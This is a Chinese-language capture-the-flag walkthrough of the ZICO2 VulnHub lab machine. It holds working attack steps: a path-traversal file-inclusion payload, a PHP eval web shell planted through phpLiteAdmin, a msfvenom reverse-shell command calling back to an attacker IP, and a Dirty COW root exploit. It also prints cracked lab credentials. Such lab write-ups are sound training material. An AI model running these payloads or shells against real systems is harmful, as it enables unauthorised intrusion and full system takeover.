

# ZICO2

```
https://www.vulnhub.com/entry/zico2-1,210/
```


[TOC]


## 1.信息收集

### 1.1主机发现

```
netdiscover -r 192.168.32.0/24
_____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname
 -----------------------------------------------------------------------------
 192.168.32.1    00:50:56:c0:00:08      1      60  VMware, Inc.
 192.168.32.2    00:50:56:eb:0a:2d      1      60  VMware, Inc.
 192.168.32.159  00:0c:29:8f:06:f2      1      60  VMware, Inc.
 192.168.32.254  00:50:56:fa:0a:be      1      60  VMware, Inc.

```

### 1.2端口扫描

```
masscan 192.168.32.159 -p 1-65535 --rate=1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-08 07:12:03 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 52867/tcp on 192.168.32.159
Discovered open port 111/tcp on 192.168.32.159
Discovered open port 80/tcp on 192.168.32.159
Discovered open port 22/tcp on 192.168.32.159
```

### 1.3服务扫描

```shell
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -A 192.168.32.159 -p 80,22,111,52867
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-08 02:58 EST
Nmap scan report for bogon (192.168.32.159)
Host is up (0.00046s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Zico's Shop
|_http-server-header: Apache/2.2.22 (Ubuntu)
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33294/udp6  status
|   100024  1          52867/tcp   status
|   100024  1          56999/udp   status
|_  100024  1          59308/tcp6  status
52867/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:8F:06:F2 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms bogon (192.168.32.159)
```

### 1.4目录扫描

```shell
---- Scanning URL: http://192.168.32.159/ ----
+ http://192.168.32.159/cgi-bin/ (CODE:403|SIZE:290)
==> DIRECTORY: http://192.168.32.159/css/
==> DIRECTORY: http://192.168.32.159/dbadmin/
==> DIRECTORY: http://192.168.32.159/img/
+ http://192.168.32.159/index (CODE:200|SIZE:7970)
+ http://192.168.32.159/index.html (CODE:200|SIZE:7970)
==> DIRECTORY: http://192.168.32.159/js/
+ http://192.168.32.159/LICENSE (CODE:200|SIZE:1094)
+ http://192.168.32.159/package (CODE:200|SIZE:789)
+ http://192.168.32.159/server-status (CODE:403|SIZE:295)
+ http://192.168.32.159/tools (CODE:200|SIZE:8355)
==> DIRECTORY: http://192.168.32.159/vendor/
+ http://192.168.32.159/view (CODE:200|SIZE:0)
```


## 2.漏洞探测

### 2.1访问扫描出来的目录


###  2.2弱口令登录数据库

```
admin
```


发现用户的用户名密码，找个网站解密一下

```
root:34kroot34
zico:zico2215@
```

### 2.3尝试ssh登录服务器（失败）

两个都不行


### 2.4文件包含漏洞

看到这种格式的链接就想到文件包含漏洞

```
http://192.168.32.159/view.php?page=tools.html
```


构造payload

```
http://192.168.32.159/view.php?page=../../../etc/passwd
```


目前的收集的信息除了这个也不知道包含什么了

## 3.漏洞利用

### 3.1phpLiteAdmin getshell 

kali本地搜索相关的漏洞利用信息

```
searchsploit phpLiteAdmin
```


 

```shell
cat /usr/share/exploitdb/exploits/php/webapps/24044.txt
```

根据提示来：

1.创建一个数据库 hack.php


2.创建一个test表


3.写入phpinfo 看下是否利用成功


###  3.2.文件包含漏洞getshell

文件的路径为：

```
/usr/databases/hack.php
```

 文件包含：

```
http://192.168.32.159/view.php?page=../../../usr/databases/hack.php
```


思路：包含一个php 一句话木马，getshell。


把`phpinfo()`修改为`<?php @eval($_POST[123]);?>`,然后再文件包含

```
http://192.168.32.159/view.php?page=../../../usr/databases/hack.php
```

中国蚁剑连接木马





## 4.提权

内核较老可以尝试脏牛

MSF生成木马，并开启监听

```
msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.32.155 lport=4444 -f elf  >4444.elf
```


获取shell后

切换python 终端

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```


### 4.1把payload上传到目标机器


编译：

```c++
gcc -pthread dirty.c -o dcow -lcrypt
#而gcc手册里则指出应该在编译和链接时都增加 -pthread 选项
# -lcrypt返回一个指向以NULL结尾的密码字符串。
```

```
./dcow     #运行木马
1234567  #输入新密码
su -     #切换root用户
cd /root
cat flag.txt
```


